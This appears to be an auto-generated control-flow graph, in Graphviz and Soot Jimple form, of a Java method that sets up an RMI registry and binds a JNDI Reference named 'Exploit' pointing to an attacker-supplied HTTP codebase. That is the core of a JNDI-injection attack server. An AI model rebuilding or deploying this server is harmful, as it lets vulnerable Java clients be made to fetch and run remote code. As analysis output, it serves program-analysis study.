 digraph "unitGraph" {
    "r0 := @parameter0: java.lang.Integer"
    "r4 := @parameter1: java.lang.String"
    "r7 := @parameter2: java.lang.Integer"
    "$i0 = virtualinvoke r0.<java.lang.Integer: int intValue()>()"
    "r1 = staticinvoke <java.rmi.registry.LocateRegistry: java.rmi.registry.Registry createRegistry(int)>($i0)"
    "$r2 = new java.lang.StringBuilder"
    "specialinvoke $r2.<java.lang.StringBuilder: void <init>()>()"
    "$r3 = virtualinvoke $r2.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\")"
    "$r5 = virtualinvoke $r3.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r4)"
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\")"
    "$r8 = virtualinvoke r7.<java.lang.Integer: java.lang.String toString()>()"
    "$r9 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r8)"
    "$r10 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/\")"
    "r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.String toString()>()"
    "$r12 = new javax.naming.Reference"
    "specialinvoke $r12.<javax.naming.Reference: void <init>(java.lang.String,java.lang.String,java.lang.String)>(\"Exploit\", \"Exploit\", r11)"
    "r13 = $r12"
    "$r14 = new com.sun.jndi.rmi.registry.ReferenceWrapper"
    "specialinvoke $r14.<com.sun.jndi.rmi.registry.ReferenceWrapper: void <init>(javax.naming.Reference)>(r13)"
    "r15 = $r14"
    "interfaceinvoke r1.<java.rmi.registry.Registry: void bind(java.lang.String,java.rmi.Remote)>(\"Exploit\", r15)"
    "$r17 = <java.lang.System: java.io.PrintStream out>"
    "$r16 = newarray (java.lang.Object)[3]"
    "$r16[0] = r0"
    "$r16[1] = r4"
    "$r16[2] = r0"
    "$r18 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] RMI server listening on: 0.0.0.0:%d (rmi://%s:%d/Exploit)\", $r16)"
    "virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r18)"
    "return"
    "r0 := @parameter0: java.lang.Integer"->"r4 := @parameter1: java.lang.String";
    "r4 := @parameter1: java.lang.String"->"r7 := @parameter2: java.lang.Integer";
    "r7 := @parameter2: java.lang.Integer"->"$i0 = virtualinvoke r0.<java.lang.Integer: int intValue()>()";
    "$i0 = virtualinvoke r0.<java.lang.Integer: int intValue()>()"->"r1 = staticinvoke <java.rmi.registry.LocateRegistry: java.rmi.registry.Registry createRegistry(int)>($i0)";
    "r1 = staticinvoke <java.rmi.registry.LocateRegistry: java.rmi.registry.Registry createRegistry(int)>($i0)"->"$r2 = new java.lang.StringBuilder";
    "$r2 = new java.lang.StringBuilder"->"specialinvoke $r2.<java.lang.StringBuilder: void <init>()>()";
    "specialinvoke $r2.<java.lang.StringBuilder: void <init>()>()"->"$r3 = virtualinvoke $r2.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\")";
    "$r3 = virtualinvoke $r2.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"http://\")"->"$r5 = virtualinvoke $r3.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r4)";
    "$r5 = virtualinvoke $r3.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r4)"->"$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\")";
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\":\")"->"$r8 = virtualinvoke r7.<java.lang.Integer: java.lang.String toString()>()";
    "$r8 = virtualinvoke r7.<java.lang.Integer: java.lang.String toString()>()"->"$r9 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r8)";
    "$r9 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>($r8)"->"$r10 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/\")";
    "$r10 = virtualinvoke $r9.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"/\")"->"r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.String toString()>()";
    "r11 = virtualinvoke $r10.<java.lang.StringBuilder: java.lang.String toString()>()"->"$r12 = new javax.naming.Reference";
    "$r12 = new javax.naming.Reference"->"specialinvoke $r12.<javax.naming.Reference: void <init>(java.lang.String,java.lang.String,java.lang.String)>(\"Exploit\", \"Exploit\", r11)";
    "specialinvoke $r12.<javax.naming.Reference: void <init>(java.lang.String,java.lang.String,java.lang.String)>(\"Exploit\", \"Exploit\", r11)"->"r13 = $r12";
    "r13 = $r12"->"$r14 = new com.sun.jndi.rmi.registry.ReferenceWrapper";
    "$r14 = new com.sun.jndi.rmi.registry.ReferenceWrapper"->"specialinvoke $r14.<com.sun.jndi.rmi.registry.ReferenceWrapper: void <init>(javax.naming.Reference)>(r13)";
    "specialinvoke $r14.<com.sun.jndi.rmi.registry.ReferenceWrapper: void <init>(javax.naming.Reference)>(r13)"->"r15 = $r14";
    "r15 = $r14"->"interfaceinvoke r1.<java.rmi.registry.Registry: void bind(java.lang.String,java.rmi.Remote)>(\"Exploit\", r15)";
    "interfaceinvoke r1.<java.rmi.registry.Registry: void bind(java.lang.String,java.rmi.Remote)>(\"Exploit\", r15)"->"$r17 = <java.lang.System: java.io.PrintStream out>";
    "$r17 = <java.lang.System: java.io.PrintStream out>"->"$r16 = newarray (java.lang.Object)[3]";
    "$r16 = newarray (java.lang.Object)[3]"->"$r16[0] = r0";
    "$r16[0] = r0"->"$r16[1] = r4";
    "$r16[1] = r4"->"$r16[2] = r0";
    "$r16[2] = r0"->"$r18 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] RMI server listening on: 0.0.0.0:%d (rmi://%s:%d/Exploit)\", $r16)";
    "$r18 = staticinvoke <java.lang.String: java.lang.String format(java.lang.String,java.lang.Object[])>(\"[*] RMI server listening on: 0.0.0.0:%d (rmi://%s:%d/Exploit)\", $r16)"->"virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r18)";
    "virtualinvoke $r17.<java.io.PrintStream: void println(java.lang.String)>($r18)"->"return";
}
